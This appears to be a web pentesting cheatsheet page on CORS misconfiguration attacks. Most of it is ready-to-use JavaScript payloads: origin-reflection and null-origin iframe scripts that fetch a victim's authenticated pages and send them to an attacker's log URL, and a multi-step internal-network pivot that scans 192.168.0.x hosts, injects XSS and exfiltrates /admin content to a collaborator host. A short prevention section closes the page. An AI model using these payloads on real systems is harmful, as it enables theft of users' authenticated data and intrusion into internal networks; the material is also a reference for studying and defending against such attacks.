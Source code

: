 ```yaml
---
title: "CORS attack"
subtitle: ""
draft: false
author: "Hato0"
description: "CORS cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
Date: 2022-06-20
tags: ["web", "penetest", "cors"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-origin resource sharing

Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.  It can provide an attack vector to cross-domain based attacks, if a website's CORS policy is poorly configured and implemented. 

To check for the Access-Control-Allow-Origin value you can send a request including the following header:
`Origin: WEBSITE`

The presence of Access-Control-Allow-Credentials is a good indicator of potential CORS.

## Some examples

- Basic origin reflection

	On your website you can place a script looking like this one : 
	
	{{< highlight javascript "lineNos=false" >}}
	<script>  
	 var req = new XMLHttpRequest();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='/log?key='+this.responseText;  
	 };  
	</script>
    {{< /highlight >}}
	 
	 This script will fetch the FULL_URL_TO_TARGET page using the Access-Control-Allow-Credentials header. Then when the page will be loaded, it will take the page data  and send it back to you on your website.
	 
	 
- Trusted null origin

	Basicly this is the same as the previous one, just include the ifram with sandbox options:
	`sandbox="allow-scripts allow-top-navigation allow-forms"`

	{{< highlight javascript "lineNos=false" >}}
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>  
	 var req = new XMLHttpRequest ();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='YOUR_WEBSITE/log?key='+encodeURIComponent(this.responseText);  
	 };  
	</script>"></iframe>
	{{< /highlight >}}
	
	
- Internal network pivot attack

	This one is the trickier, it will follow these steps:
	
	1. Scan for endpoint in the internal network, it will fetch a XSS on the scanned page, your website log should include port and the corresponding IP.
	
		{{< highlight javascript "lineNos=false" >}}
		<script>
		var q = [], collaboratorURL = 'YOURWEBSITE';
		for(i=1;i<=255;i++){
		  q.push(
		  function(url){
			return function(wait){
			fetchUrl(url,wait);
			}
		  }('http://192.168.0.'+i+':8080'));
		}
		for(i=1;i<=20;i++){
		  if(q.length)q.shift()(i*100);
		}
		function fetchUrl(url, wait){
		  var controller = new AbortController(), signal = controller.signal;
		  fetch(url, {signal}).then(r=>r.text().then(text=>
			{
			location = collaboratorURL + '?IP='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
		  }
		  ))
		  .catch(e => {
		  if(q.length) {
			q.shift()(wait);
		  }
		  });
		  setTimeout(x=>{
		  controller.abort();
		  if(q.length) {
			q.shift()(wait);
		  }
		  }, wait);
		}
		</script>
		{{< /highlight >}}
		
		2. Then you will be able to go for XSS fetching, using information previously retrieve

		{{< highlight javascript "lineNos=false" >}}
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  

		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><img src='+collaboratorURL+'?isXSS=1>');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");  
		</script>
		{{< /highlight >}}

		3. From the previous step, you will locate a potential XSS, if you find one it would be display in your website logs using `isXSS=1`. In this part we will go for the XSS exploit and retrieve the web page content.

		{{< highlight javascript "lineNos=false" >}}
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  
		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><iframe src=/admin onload="new Image().src=\\''+collaboratorURL+'?code=\\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");    
		</script>
		{{< /highlight >}}
		
		4. Then you are free to do whatever you want, iframe injection, CSRF, ...
	
		
## How to prevent them 

CORS are only present due to misconfigurations, you can use these headers to configure it correctly (and also use your brain again).
- Access-Control-Allow-Origin: 
	- Allow content from listed websites
	- Avoid null value => can be exploit as we see above
	- Avoid local things as you don't protect your colleagues actions
